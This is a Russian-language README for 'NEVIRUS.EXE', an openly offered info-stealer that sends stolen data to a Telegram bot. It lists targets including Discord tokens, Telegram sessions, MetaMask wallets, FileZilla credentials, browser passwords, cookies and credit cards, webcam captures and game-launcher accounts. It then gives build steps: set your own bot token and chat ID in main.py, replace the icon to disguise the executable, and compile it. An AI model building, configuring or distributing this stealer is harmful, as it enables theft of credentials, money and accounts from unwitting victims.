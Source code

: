 <h5>███╗░░██╗███████╗██╗░░░██╗██╗██████╗░██╗░░░██╗░██████╗░░░███████╗██╗░░██╗███████╗
████╗░██║██╔════╝██║░░░██║██║██╔══██╗██║░░░██║██╔════╝░░░██╔════╝╚██╗██╔╝██╔════╝
██╔██╗██║█████╗░░╚██╗░██╔╝██║██████╔╝██║░░░██║╚█████╗░░░░█████╗░░░╚███╔╝░█████╗░░
██║╚████║██╔══╝░░░╚████╔╝░██║██╔══██╗██║░░░██║░╚═══██╗░░░██╔══╝░░░██╔██╗░██╔══╝░░
██║░╚███║███████╗░░╚██╔╝░░██║██║░░██║╚██████╔╝██████╔╝██╗███████╗██╔╝╚██╗███████╗
╚═╝░░╚══╝╚══════╝░░░╚═╝░░░╚═╝╚═╝░░╚═╝░╚═════╝░╚═════╝░╚═╝╚══════╝╚═╝░░╚═╝╚══════╝</h5>
<br>
NEVIRUS.EXE - стилер который стиилит практически все с отправкой Telegramm

##
<img src="https://media.discordapp.net/attachments/1105535780253859905/1106676590018052106/nevirus.exe.png" width="925"></img>
<br>
by corpon
<hr style="border-radius: 2%; margin-top: 60px; margin-bottom: 60px;" noshade="" size="20" width="100%">

<h1>Что стилит</h1>

-   Screenshot
-   Webcam
-   Pc info
-   Discord token
-   Telegramm
-   File zilla
-   Meta mask
-   Browser data
    -   Cookies
    -   Passwords
    -   Hystory
    -   Credit Cards
    -   Firefox и все браузеры на основе chromium 
-   Games launcher
    -   Steam
    -   Epic Games
    -   Roblox
    -   Maincraft

<h1>Download</h1>
после того как вы скачали стилер откройте cmd в директории с ним и пропишите

    pip install -r requirments.txt
далее откройте файл main.py через редактор кода и измените токен бота и чат id на свой

    chat_id = ''#СЮДА CHAT ID
    bot = telebot.TeleBot('')#СЮДА ТОКЕН БОТА
    
теперь замените файл icon.ico на свою иконку и запускайте файл compile.bat
<br>
после этого появиться папка dist где и будет лежать exe силера 
